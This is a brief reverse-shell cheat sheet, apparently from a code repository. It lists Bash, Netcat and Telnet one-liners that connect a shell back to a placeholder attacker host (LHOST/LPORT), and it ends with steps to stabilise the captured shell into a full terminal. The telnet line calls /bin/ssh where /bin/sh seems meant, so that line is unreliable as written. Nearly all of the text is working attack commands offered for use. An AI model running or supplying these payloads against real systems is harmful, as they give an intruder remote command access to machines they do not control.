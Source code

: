 ## Bash

```bash
bash -c 'bash -i >& /dev/tcp/LHOST/LPORT 0>&1'
```

## Netcat

```bash
nc -e /bin/sh LHOST LPORT
nc -c /bin/sh LHOST LPORT
rm /tmp/y;mkfifo /tmp/y;cat /tmp/y|/bin/sh -i 2>&1|nc LHOST LPORT >/tmp/y
```

## Telnet

```bash
rm /tmp/y;mkfifo /tmp/y;cat /tmp/y|/bin/ssh -i 2>&1|telnet LHOST LPORT >/tmp/y
```

## Stabilizing shell

```text
SHELL=/bin/bash script -q /dev/null
[Ctrl + Z]
stty raw -echo
fg
reset
xterm
```

